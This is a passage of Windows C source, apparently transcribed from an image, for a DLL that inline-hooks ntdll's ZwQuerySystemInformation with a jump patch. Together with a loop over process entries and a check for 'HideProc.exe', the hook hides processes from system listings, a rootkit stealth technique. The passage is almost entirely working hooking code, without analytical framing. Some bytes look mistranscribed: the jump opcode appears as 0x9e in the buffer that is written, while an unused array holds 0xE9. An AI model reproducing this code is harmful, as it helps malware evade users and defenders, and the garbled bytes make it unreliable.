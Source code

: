 ```
				break;
			}
			pCur = (PSYSTEM_PROCESS_INFORMATION)((ULONG)pCur + pCur->NextEntryOffset);
		}
	}
	hook_by_code();
	return status;
}

BOOL hook_by_code()
{
	DWORD oldProtect;
	DWORD funAddress = 0;
	BYTE szShellCode[5] = { 0xE9,0,0,0,0 };
	ZwQ p_ZwQ = (ZwQ)GetProcAddress(GetModuleHandle(dll_ntdll), func_ZwQ);
	if (((PBYTE)p_ZwQ)[0] == 0xe9 || p_ZwQ == NULL)
	{
		return FALSE;
	}
	funAddress = (DWORD)p_ZwQ;
	VirtualProtect((LPVOID)p_ZwQ, 10, PAGE_EXECUTE_READWRITE, &oldProtect);
	ReadProcessMemory(GetCurrentProcess(), (LPVOID)funAddress, (LPVOID)old_ZwQ, sizeof(old_ZwQ), NULL);
	DWORD distance = (DWORD)new_ZwQ - (DWORD)p_ZwQ - 5;// jmp 的计算细节五
	BYTE buf[5] = { 0x9e, 0, };
	*(PDWORD)(&buf[1]) = distance;
	memcpy((LPVOID)p_ZwQ, buf, 5);
	VirtualProtect((LPVOID)p_ZwQ, 10, oldProtect, &oldProtect);
	return TRUE;
}

BOOL WINAPI DllMain(HINSTANCE hinsstDLL, DWORD fdwReason, LPVOID lpvReserved)
{
	char szCurProc[MAX_PATH] = { 0, };
	GetModuleFileNameA(NULL, szCurProc, MAX_PATH);
	char *p = strrchr(szCurProc, '\\');
	if ((p != NULL) && (!_stricmp(p + 1, "HideProc.exe"))) {
		return TRUE;
	}
	switch (fdwReason) {
	case DLL_PROCESS_ATTACH:
		hook_by_code();
		break;
	case DLL_PROCESS_DETACH:
		unhook_by_code();
		break;
	}
	return TRUE;
}
```
